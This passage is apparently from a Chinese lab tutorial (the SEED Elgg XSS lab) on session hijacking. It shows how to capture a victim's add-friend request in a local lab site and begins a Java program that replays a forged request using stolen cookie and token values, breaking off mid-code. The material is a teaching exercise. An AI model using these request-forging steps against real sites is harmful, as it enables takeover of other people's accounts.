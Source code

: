 ### 3.4 使用获取的Cookie进行会话劫持 

当获取了受害者的cookie以后，我们可以干嘛呢？可以利用cookie登录用户，也就是会话劫持。

会话劫持：窃取受害者的cookie后,攻击者可以仿造受害者向服务器发送请求,包括代表受害者增删好友，删去公司职位信息等等。从本质上讲, 就是劫持受害者的会话。

这个实验我们将用到firefox的菜单栏中tools中的LiveHTTPHeaders工具。

#### 1.查看受害者添加好友时候的请求

我们登录Samy的账号，通过添加Boby来查看添加好友的请求：

![3.4-1](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430793044079?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

如上图，登陆后单击 `more` 中的 `members`来添加好友，然后点击一个不是好友的用户来添加好友。

![3.4-2](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430793112478?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

点击这里添加好友。

#### 2.安装`live http headers` 工具

这里使用的工具是之前提到的 `live http headers` 工具，点击浏览器的 tools-》add-ons ，在搜索框输入 live http headers 就可以找到，点击 install 即可安装，安装后重启浏览器就可以了。我这里是已经安装了，截图如下：

![3.4-3](https://dn-simplecloud.shiyanlou.com/uid/8797/1524647286699.png-wm)

为避免之前登录过的影响，我们先清理一下浏览器历史，点击 History-》Clear Recent History ：

![3.4-4](https://doc.shiyanlou.com/document-uid600404labid937timestamp1524879140035.png/wm)

然后点击浏览器 tools-》 live http headers，打开之前添加的工具。再点击第一步中添加好友的按钮，就可以在 live http headers 的窗口看到很多类似如下的内容。当然，你显示的内容跟我的有些地方可能不一样。

下面的这张截图即为请求信息：
![3.4-5](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430793133381?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)


当攻击者知道了他的请求以后，就可以编写一个Java程序发送相同的HTTP请求达到创建项目的目的，当然还可以进行其他的请求：

HTTP访问请求：
>1. 打开一个连接到web服务器。

>2. 设置必要的HTTP头信息。

>3. 发送请求到web服务器。

>4. 得到来自web服务器的响应。

```
import java.io.*;
import java.net.*;


public class HTTPSimpleForge {

public static void main(String[] args) throws IOException {
try {
int responseCode;
InputStream responseIn=null;
String requestDetails = "&__elgg_ts=<<correct_elgg_ts_value>>
&__elgg_token=<<correct_elgg_token_value>>";
// URL to be forged.
URL url = new URL ("http://www.xsslabelgg.com/action/friends/add?
friend=<<friend_user_guid>>"+requestDetails);
// URLConnection instance is created to further parameterize a
// resource request past what the state members of URL instance
// can represent.
HttpURLConnection urlConn = (HttpURLConnection) url.openConnection();
if (urlConn instanceof HttpURLConnection) {
```